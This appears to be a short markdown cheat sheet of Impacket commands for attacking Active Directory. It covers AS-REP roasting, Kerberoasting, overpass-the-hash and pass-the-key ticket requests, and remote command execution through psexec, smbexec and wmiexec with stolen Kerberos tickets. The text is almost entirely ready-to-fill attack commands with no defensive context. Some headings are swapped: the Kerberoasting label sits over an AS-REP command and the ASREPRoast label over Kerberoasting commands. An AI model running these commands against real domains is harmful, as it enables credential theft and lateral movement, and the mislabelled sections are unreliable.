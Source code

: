 ```yaml
---
category: Uncategorized
tags: []
---
```

## Check for Kerberoasting: 

- GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

## GetUserSPNs

ASREPRoast:
- impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
- impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

Kerberoasting: 
- impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

Overpass The Hash/Pass The Key (PTK):

- python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
- python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
- python3 getTGT.py <domain_name>/<user_name>:[password]

## Using TGT key to excute remote commands from the following impacket scripts:

- python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
- python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
- python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

